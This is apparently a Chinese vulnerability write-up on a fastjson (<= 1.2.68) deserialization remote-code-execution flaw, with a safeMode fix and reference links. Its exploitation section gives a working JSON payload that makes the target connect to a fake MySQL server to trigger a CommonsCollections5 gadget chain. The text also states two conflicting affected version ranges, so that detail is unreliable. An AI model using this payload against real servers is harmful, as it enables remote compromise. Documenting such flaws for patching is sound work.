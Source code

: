 ### 一 漏洞描述
fastjson是一款用Java语言编写的高性能功能完善的JSON库。由于其独特的算法，fastjson的parse速度极快，超越了所有json库，包括曾经号称最快的jackson以及Google的二进制协议protocol buf。fastjson还是官方收录的参考实现之一，完全支持http://json.org的标准。除此之外，fastjson还支持各种JDK类型包括JavaBean，Map,Enum,泛型等，而且不需要额外的jar，能够直接跑在JDK上。Fastjson支持JDK 5， JDK 6，Android,阿里云手机等环境。

fastjson <= 1.2.68

攻击者仍然可以通过发送精心制造的请求包，使用mappings绕过autoType选项，在使用Fastjson的服务器上远程执行代码。  
该问题影响Fastjson 1.2.47以及之前的版本，而且无需开启Autotype选项。
但开启safeMode则无法利用。

### 二 漏洞利用
```
{
    "@type":"java.lang.AutoCloseable",
    "@type": "com.mysql.jdbc.JDBC4Connection",
    "hostToConnectTo": "127.0.0.1",
    "portToConnectTo": 3306,
    "info":
    {
        "user": "CommonsCollections5", // 利用链，自己在MySQL_Fake_Server的conf里面改，具体看他的readme
        "password": "pass",
        "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
        "autoDeserialize": "true",
        "NUM_HOSTS": "1"
    },
    "databaseToConnectTo": "dbname",
    "url": ""
}
```

### 三 漏洞修复
升级并开启safeMode或不用fastjson

safeMode开启
```java
import com.alibaba.fastjson.parser.ParserConfig;

ParserConfig.getGlobalInstance().setSafeMode(true);
```

![img_1.png](img_1.png)

### 四 漏洞分析
![img.png](img.png)

> 参考链接
> payload: https://blog.gm7.org/%E4%B8%AA%E4%BA%BA%E7%9F%A5%E8%AF%86%E5%BA%93/02.%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/01.Java%E5%AE%89%E5%85%A8/2.%E5%90%84%E7%A7%8D%E5%88%86%E6%9E%90/07.Fastjson1.2.68%E5%88%86%E6%9E%90.html
> https://www.cnblogs.com/huim/p/16566911.html

